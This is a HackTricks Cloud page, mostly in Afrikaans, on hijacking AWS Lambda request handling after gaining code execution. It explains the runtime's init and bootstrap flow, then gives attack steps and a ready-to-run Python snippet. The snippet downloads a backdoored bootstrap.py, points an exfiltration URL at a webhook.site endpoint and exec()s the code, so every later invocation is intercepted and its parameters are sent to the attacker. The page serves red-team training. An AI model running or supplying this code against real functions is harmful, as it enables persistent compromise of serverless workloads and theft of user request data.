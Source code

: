 # AWS - Steel Lambda Versoeke

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Stroom

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** is 'n proses buite die houer wat **stuur** **aanroepings** na die **init** proses.
2. Die init proses luister op poort **9001** wat 'n paar interessante eindpunte blootstel:
* **`/2018-06-01/runtime/invocation/next`** – kry die volgende aanroep gebeurtenis
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – keer die handler respons vir die aanroep terug
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – keer 'n uitvoeringsfout terug
3. **bootstrap.py** het 'n lus wat aanroepings van die init proses kry en roep die gebruikerskode aan om dit te hanteer (**`/next`**).
4. Laastens, **bootstrap.py** stuur die **respons** na init

Let daarop dat bootstrap die gebruikerskode as 'n module laai, so enige kode-uitvoering wat deur die gebruikerskode uitgevoer word, gebeur eintlik in hierdie proses.

## Steel Lambda Versoeke

Die doel van hierdie aanval is om die gebruikerskode 'n kwaadwillige **`bootstrap.py`** proses binne die **`bootstrap.py`** proses wat die kwesbare versoek hanteer, te laat uitvoer. Op hierdie manier sal die **kwaadwillige bootstrap** proses begin **praat met die init proses** om die versoeke te hanteer terwyl die **legitieme** bootstrap **gevang** is wat die kwaadwillige een uitvoer, sodat dit nie versoeke aan die init proses sal vra nie.

Dit is 'n eenvoudige taak om te bereik aangesien die kode van die gebruiker deur die legitieme **`bootstrap.py`** proses uitgevoer word. So die aanvaller kan:

* **Stuur 'n vals resultaat van die huidige aanroep na die init proses**, sodat init dink die bootstrap proses wag vir meer aanroepings.
* 'n Versoek moet gestuur word na **`/${invoke-id}/response`**
* Die invoke-id kan verkry word uit die stapel van die legitieme **`bootstrap.py`** proses met behulp van die [**inspect**](https://docs.python.org/3/library/inspect.html) python module (soos [hier voorgestel](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) of net weer gevra word na **`/2018-06-01/runtime/invocation/next`** (soos [hier voorgestel](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Voer 'n kwaadwillige **`boostrap.py`** uit wat die volgende aanroepings sal hanteer
* Vir stealthiness doeleindes is dit moontlik om die lambda aanroepingsparameters na 'n aanvaller beheerde C2 te stuur en dan die versoeke soos gewoonlik te hanteer.
* Vir hierdie aanval is dit genoeg om die oorspronklike kode van **`bootstrap.py`** van die stelsel of [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) te kry, die kwaadwillige kode by te voeg en dit vanaf die huidige lambda aanroep uit te voer.

### Aanval Stappe

1. Vind 'n **RCE** kwesbaarheid.
2. Genereer 'n **kwaadwillige** **bootstrap** (bv. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Voer** die kwaadwillige bootstrap uit.

Jy kan hierdie aksies maklik uitvoer deur te loop:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
For more info check [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## References

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
